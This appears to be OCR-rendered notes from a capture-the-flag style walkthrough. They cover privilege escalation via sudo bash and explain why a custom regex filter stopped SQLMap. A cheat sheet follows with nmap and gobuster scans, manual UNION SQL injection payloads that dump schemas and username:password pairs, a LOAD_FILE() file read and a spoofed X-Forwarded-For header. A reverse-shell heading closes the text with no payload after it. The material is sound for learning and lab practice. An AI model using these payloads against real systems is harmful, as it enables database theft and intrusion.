 ````markdown
  - Used `sudo /bin/bash` to spawn a root shell.

## SQLMap Bypass Discussion

- The application had a custom **SQLMap Killer** regex-based filter in `index.php`.
  - This blocked typical SQLMap payloads based on known keywords.
- The filter matched common SQLMap words and forced a `die()` call, returning the same response each time.
- As a result, SQLMap was ineffective:
  - Even modifying strings like “Congratulations” to “ongratulations” didn’t help since the backend returned the same generic message.
  - This prevented SQLMap from identifying true/false conditions, so it couldn’t detect boolean injections.
- Explained that `--level` and `--risk` arguments in SQLMap change payload complexity, but weren’t enough to bypass the custom filter.

---

# 🔧 SQL Injection Command + Concept Cheat Sheet

## Nmap & Gobuster

```bash
nmap -sC -sV -oA scan <target-ip>
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
````

## SQL Injection (manual)

```sql
' UNION SELECT null, database() --
' UNION SELECT null, schema_name FROM information_schema.schemata --
' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema='<dbname>' --
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='<table>' --
' UNION SELECT null, GROUP_CONCAT(column_name SEPARATOR ':') FROM information_schema.columns WHERE table_name='users' --
' UNION SELECT null, GROUP_CONCAT(username, ':', password SEPARATOR ' | ') FROM users --
```

## Using LOAD_FILE() to Read Files

```sql
' UNION SELECT null, LOAD_FILE('/var/www/html/config.php') --
```

## Modifying HTTP Headers (BurpSuite)

```http
X-FORWARDED-FOR: 127.0.0.1
```

## Reverse Shell Payload (via Command Injection)
